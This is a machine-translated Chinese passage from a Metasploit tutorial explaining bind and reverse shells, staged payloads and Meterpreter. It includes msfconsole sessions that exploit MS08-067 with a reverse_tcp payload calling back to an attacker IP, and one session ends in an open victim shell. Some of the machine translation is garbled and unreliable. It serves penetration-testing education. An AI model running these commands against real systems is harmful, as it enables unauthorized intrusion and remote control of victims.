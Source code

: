 ```
```

因此，我们分析了 Metasploit 还使用集成的多线程处理程序自动连接到绑定 shell 的过程。在使用绑定外壳代码编写自己的漏洞攻击时，Netcat 等工具可以派上用场，这需要第三方处理程序来建立与受损主机的连接。您可以在[上阅读 Netcat 用于各种网络安全操作的一些实际示例 http://en.wikipedia.org/wiki/Netcat](http://en.wikipedia.org/wiki/Netcat) 。

# 倒壳

反向壳与绑定壳完全相反。它不是在目标系统上绑定端口并等待来自攻击者机器的连接，而是简单地连接回攻击者的 IP 和端口，并生成一个外壳。反向外壳的一个可见维度是考虑 NAT 或防火墙背后的目标，以防止公共访问其系统资源。

以下是开始利用和设置反向 shell 的命令：

```
 msf> use exploit/windows/smb/ms08_067_netapi
    msf exploit(ms08_067_netapi) > set RHOST 192.168.0.7
    RHOST => 192.168.0.7
    msf exploit(ms08_067_netapi) > set PAYLOAD windows/shell/reverse_tcp
    PAYLOAD => windows/shell/reverse_tcp
    msf exploit(ms08_067_netapi) > show options
    msf exploit(ms08_067_netapi) > set LHOST 192.168.0.3
    LHOST => 192.168.0.3
    msf exploit(ms08_067_netapi) > exploit

    [*] Started reverse handler on 192.168.0.3:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (240 bytes) to 192.168.0.7
    [*] Command shell session 1 opened (192.168.0.3:4444 ->
192.168.0.7:1027) at Sat Nov 13 22:59:02 +0000 2010
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:WINDOWSsystem32> 
```

您可以使用攻击者的 IP 清楚地区分反向 shell 和绑定 shell。我们必须在反向 shell 配置中提供攻击者的 IP（例如，`LHOST``192.168.0.3`），而不需要在绑定 shell 中提供。

内联有效负载和 stager 有效负载之间的区别是什么？内联有效负载是一个单独的自包含外壳代码，将与一个漏洞实例一起执行，而 stager 有效负载在攻击者和受害者机器之间创建一个通信通道，以读取其余的 staging 外壳代码，以便执行特定任务。通常选择分段有效载荷，因为它们比内联有效载荷小得多。

# 仪表

MeterMeter 是一种先进的、隐蔽的、多方面的、动态可扩展的有效负载，它通过将反射 DLL 注入目标内存进行操作。可以在运行时动态加载脚本和插件，以扩展利用后活动。这包括权限提升、转储系统帐户、键盘记录、持久后门服务和启用远程桌面。此外，默认情况下，仪表外壳的整个通信都是加密的。

以下是开始利用和设置 MeterMeter 有效负载的命令：

```
 msf> use exploit/windows/smb/ms08_067_netapi
    msf exploit(ms08_067_netapi) > set RHOST 192.168.0.7
    RHOST => 192.168.0.7
    msf exploit(ms08_067_netapi) > show payloads
    ...
    msf exploit(ms08_067_netapi) > set PAYLOAD 
windows/meterpreter/reverse_tcp
    PAYLOAD => windows/meterpreter/reverse_tcp
    msf exploit(ms08_067_netapi) > show options
    ...
    msf exploit(ms08_067_netapi) > set LHOST 192.168.0.3
    LHOST => 192.168.0.3
    msf exploit(ms08_067_netapi) > exploit
```